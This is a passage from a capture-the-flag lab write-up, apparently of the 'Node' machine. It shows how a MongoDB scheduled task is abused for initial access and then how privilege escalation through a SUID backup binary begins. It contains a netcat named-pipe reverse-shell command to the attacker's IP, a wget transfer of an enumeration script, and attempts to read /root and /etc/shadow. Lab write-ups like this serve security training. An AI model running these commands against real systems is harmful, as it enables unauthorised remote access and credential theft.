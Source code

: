 ![image](https://user-images.githubusercontent.com/10210108/83368738-e4a2ac00-a387-11ea-9922-955fecdd496c.png)

I ran db.tasks.help() which printed out a list of commands, one of which was .insertOne()

![image](https://user-images.githubusercontent.com/10210108/83368284-4e21bb00-a386-11ea-8995-0a7ea33c1418.png)

The MongoDB document structure is [BSON](https://docs.mongodb.com/manual/core/document/) so I had to format the command accordingly. I used the insertOne() command, specifying the item, description, and cmd fields. In the cmd field I added a command that would create a reverse shell to my box.

```
db.tasks.insertOne(
{ 
    item: "Test", 
    description: "Test", 
    cmd: "rm -f /tmp/a; mknod /tmp/a p;/bin/sh 0</tmp/a | nc 10.10.14.26 4200 1>/tmp/a" 
}
)
```
When the scheduled task ran the command was executed and I received a callback as user tom.

![image](https://user-images.githubusercontent.com/10210108/83450247-ea010480-a422-11ea-8654-8531bdef6901.png)

## Steps (root/system)

I copied LinEnum to the target box to do some additional enumeration. First I copied LinEnum to my working directory and set up a python http server.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
sudo python3 -m http.server 80
```

Using wget I transferred LinEnum to the target
```
wget http://10.10.14.26/le.sh
```

LinEnum showed the suid permission was set on an unusual file: /usr/local/bin/backup

![image](https://user-images.githubusercontent.com/10210108/83456536-e757dc80-a42d-11ea-8daa-52b067b502cc.png)

Running backup with -h and no parameters doesn't provide any helpful information or syntax. Looking at /var/www/myplace/app.js again gave showed me the syntax required.

```
var proc = spawn('/usr/local/bin/backup', ['-q', backup_key, __dirname ]);
```

![image](https://user-images.githubusercontent.com/10210108/83565816-05384680-a4ed-11ea-9156-5ad1b75513af.png)

![image](https://user-images.githubusercontent.com/10210108/83565783-f81b5780-a4ec-11ea-93b2-2842971c8b8b.png)

Now that I knew the syntax I could execute the backup file. First I tried targeting /root and then /etc/shadow but I received the same result
